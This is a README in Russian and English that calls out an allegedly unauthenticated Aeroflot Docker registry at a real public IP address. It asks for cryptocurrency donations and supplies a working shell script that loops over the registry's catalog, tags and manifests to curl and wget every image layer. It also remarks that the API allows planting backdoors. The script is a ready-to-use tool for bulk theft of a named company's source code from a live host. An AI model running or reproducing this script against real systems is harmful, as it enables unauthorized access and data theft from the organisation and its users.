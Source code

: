 # Халатность авиакомпании "Аэрофлота" в защите данных.

На просторах интернета возможно найти много интересных данных, которые никак не защищаются в силу неграмотности или беспечности. Таким поведением страдают даже крупные корпорации. Одна из таких - авиакомпания "Аэрофлот". 
Компания хранит исходные коды всех своих веб-приложений в публичном доступе без какой либо аутентификации и шифрования. 

Для хранения исходников используется HTTP Docker. API докера доступно по адресу "http://89.208.149.202:5000/v2/".

Для получения списка всех репозитариев достаточно выполнить запрос "http://89.208.149.202:5000/v2/_catalog". 

Все репозитария никак не защищены и аутентификация отсутствует.

Получается годами весь исходный код всех внешних приложений авиакомпании "Аэрофлот" доступен публично и любой злоумышленник может их легко заполучить. Поэтому не удивительно, что данную корпорацию часто атакуют и что закономерно - удачно.
Через API так же возможно модифицировать файлы, что позволит внедрить свои закладки. Представляете масштаб проблемы, если этого не заметят программисты?

Возможно после этой публикации корпорация обратит внимание на свои проблемы и займется обеспечением информационной безопасности.

Так как поиск таких данных занимает много времени и ресурсов, поэтому прошу помочь в благотворительности. Полученные средства будут направлены на поиск других серьезных проблем в работе крупных корпораций из-за которых в первую очередь страдают пользователи услуг от этих самых корпораций.

Кто готов сделать пожертвонание прошу переводить средства на адрес bitcoin - `3HGaNTw5dfmGXHQuLsmTp9siKFqCLJSknk` или на адрес ethereum `0xF06c5bea2ad2041A7610533cE3145AEe9CBA7DDb`

Так же предоставлю скрипт, которым можно выгрузить все данные:

```
for catalog in `curl "http://89.208.149.202:5000/v2/_catalog" -s -k|jq '.repositories'|awk -F "\"" {'print $2'}`; do

    mkdir /path/to/dir/`echo $catalog`/

    # Get list versions
    for revision in `curl -s -k http://89.208.149.202:5000/v2/$catalog/tags/list|jq '.tags[]'|awk -F "\"" {'print $2'}`; do

	mkdir /path/to/dir/`echo $catalog`/`echo $revision`/

	#Get lists blob for download file
	for blob in `curl -s -vv -k http://89.208.149.202:5000/v2/$catalog/manifests/$revision|jq '.fsLayers[] .blobSum'|awk -F "\"" {'print $2'}|sort|uniq`; do

	    wget "http://89.208.149.202:5000/v2/$catalog/blobs/$blob" -O /path/to/dir/$catalog/$revision/`echo $blob|awk -F ":" {'print $2'}`.tar.gz

	done
    
    done

done
```

# Negligence of the airline "Aeroflot" in the protection of data.

On the Internet, it is possible to find many interesting data that are not protected in any way due to illiteracy or carelessness. Even large corporations suffer from this behavior. One of these is the Aeroflot airline. The company stores the source codes of all its web applications in public access without any authentication or encryption. H

TTP Docker is used to store the sources. The docker is available at "http://89.208.149.202:5000/v2/".

To get a list of all the repositories, it is enough to execute the query "http://89.208.149.202:5000/v2/_catalog". 

All repositories are not protected in any way and there is no authentication.

It turns out for years that the source code of all Aeroflot external applications is publicly available and any attacker can easily get them. Therefore, it is not surprising that this corporation is often attacked and that it is natural - successfully.
Through the API, it is also possible to modify the files, which will allow you to implement your bookmarks. Can you imagine the scale of the problem if programmers do not notice it?

Perhaps after this publication, the corporation will pay attention to its problems and will take care of ensuring information security.

Since the search for such data takes a lot of time and resources, so I ask you to help in charity. The funds received will be directed to the search for other serious problems in the work of huge corporations because of which the users of services from these same corporations primarily suffer.

Who is ready to make a donation please transfer money to the address bitcoin - `3HGaNTw5dfmGXHQuLsmTp9siKFqCLJSknk` or to the address ethereum `0xF06c5bea2ad2041A7610533cE3145AEe9CBA7DDb`

I will also provide a script that can unload all the data:

```
for catalog in `curl "http://89.208.149.202:5000/v2/_catalog" -s -k|jq '.repositories'|awk -F "\"" {'print $2'}`; do

    mkdir /path/to/dir/`echo $catalog`/

    # Get list versions
    for revision in `curl -s -k http://89.208.149.202:5000/v2/$catalog/tags/list|jq '.tags[]'|awk -F "\"" {'print $2'}`; do

	mkdir /path/to/dir/`echo $catalog`/`echo $revision`/

	#Get lists blob for download file
	for blob in `curl -s -vv -k http://89.208.149.202:5000/v2/$catalog/manifests/$revision|jq '.fsLayers[] .blobSum'|awk -F "\"" {'print $2'}|sort|uniq`; do

	    wget "http://89.208.149.202:5000/v2/$catalog/blobs/$blob" -O /path/to/dir/$catalog/$revision/`echo $blob|awk -F ":" {'print $2'}`.tar.gz

	done
    
    done

done
```
